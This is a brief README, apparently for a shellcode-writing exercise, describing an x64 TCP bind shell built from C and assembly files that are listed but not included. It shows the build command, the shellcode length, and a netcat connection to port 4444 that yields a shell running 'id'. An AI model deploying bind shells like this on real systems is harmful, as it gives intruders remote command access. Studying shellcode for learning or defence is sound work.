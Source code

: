 # TCP bind shell x64 shellcode

Listing:
- `bind.c` - TCP bind C code
- `bind.s` - asm rewrite of C code
- `bind_sh.s` - adapted asm for shellcode

## Usage

Use `make (target) PROJECT=bind`.

## Running

First terminal:
```
$ make skeleton PROJECT=bind
...
$ out/skeleton
Shellcode Length:  116

```

Second terminal:
```
$ sudo lsof -i -P | grep skeleton
skeleton  6713          ubuntu    3u  IPv4  86504      0t0  TCP *:4444 (LISTEN)
$ nc localhost 4444
id
uid=999(ubuntu) gid=999(ubuntu) groups=999(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),119(lpadmin),130(lxd),131(sambashare)
```
